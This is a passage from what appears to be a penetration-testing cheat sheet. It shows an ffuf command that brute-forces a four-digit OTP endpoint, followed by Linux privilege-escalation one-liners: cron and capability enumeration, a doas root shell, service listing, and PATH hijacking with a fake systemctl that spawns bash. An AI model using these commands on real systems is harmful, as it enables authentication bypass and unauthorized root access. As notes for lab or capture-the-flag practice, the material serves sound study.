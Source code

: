 ```bash
ffuf -c -u '<http://<ip>:<port>/otp-auth>' -H 'Content-Type: application/json' -X POST -d '{"otp":"FUZZ"}' -fr '{"success": "false"}' -w digits.txt -od output
```

where digits.txt is a file with all 4-digit pins and output is an empty dir

***

### Linux Privilege Escalation

#### Crons

```bash
cat /etc/crontab
```

#### getcap

```bash
getcap -r / 2>/dev/null
```

#### doas

```bash
doas -u root /bin/bash
```

#### Find Running services

```bash
netstat -ant
```

```bash
netstat -tulpen
```

```bash
netstat -an -p tcp
```

```bash
ss -tlp
```

#### Python debugger

```python
import pdb
```

—> we can execute any code in the debugger

#### PATH Hijacking

```bash
echo '/bin/bash' > systemctl
chmod +x systemctl
export PATH=.:$PATH
```
